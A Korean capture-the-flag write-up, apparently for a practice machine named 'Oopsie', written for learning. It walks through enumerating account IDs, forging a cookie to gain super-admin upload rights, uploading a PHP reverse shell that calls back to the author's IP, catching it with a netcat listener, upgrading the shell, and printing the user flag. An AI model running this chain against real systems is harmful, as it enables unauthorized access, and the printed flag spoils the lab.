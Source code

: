 `id` 변수 값에 따라 계정이 달라지는 걸 알 수 있다.

그리고 쿠키에 `role`,`user`변수가 있고, `user`변수에는 Access ID 값이 담겨있다.

그리고 우리가 쉘을 업로드해야할 거 같은 Uploads tab에서는 super admin의 권한이 필요하다고 한다.

그러면 super admin의 계정을 찾으면 되니까 Accounts 탭에서 `id`변수에 값 때려박아서 계정 찾으면 된다.


쿠키의 `user`값을 86575로 바꾸면 업로드가 가능하다. 그럼 이제 리버스 쉘을 업로드 해야 하는데,

Kali의 `/usr/share/webshells/php`경로에 가면 리버스 쉘이 있다. 거기서 IP만 내 것으로 바꿔주면 된다.

그 거 업로드 해주고 지정된 포트에서 listen 하고 있다가, 파일 업로드된 경로 찾아서 실행시켜주면 쉘이 따진다.

근데 경로가 안 나와 있어서 대충 `/uploads/filename.php` 했는데 맞았다. 개꿀. 못 찾았으면 `dirb`나 `dirsearch` 썼을 듯.

```bash
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.10.10.28: inverse host lookup failed: Unknown host
connect to [10.10.14.33] from (UNKNOWN) [10.10.10.28] 44254
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:35:40 up 12:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

현재 접속한 계정의 쉘 정보를 확인해보자:

```bash
$ grep www-data /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

`/sbin/nologin` 쉘은 로그인이 불가능하다. bash쉘로 바꿔줘야 다른 유저로 로그인할 수 있다:

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

``` bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@oopsie:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@oopsie:/$ tty             
tty
/dev/pts/1
```

```bash
www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```
